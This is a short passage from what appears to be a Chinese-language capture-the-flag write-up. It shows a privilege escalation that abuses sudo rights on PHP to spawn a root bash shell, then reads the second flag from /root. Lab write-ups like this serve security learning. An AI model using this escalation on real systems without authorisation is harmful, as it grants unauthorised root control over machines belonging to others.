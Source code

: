 

### php提权

```
CMD="/bin/bash"
sudo php -r "system('$CMD');"
whoami
```

![image-20250312214051808](assets/image-20250312214051808.png)





### 得到第二个flag

```
cd /root
ls
cat flag2.txt
```

![image-20250312214112215](assets/image-20250312214112215.png)
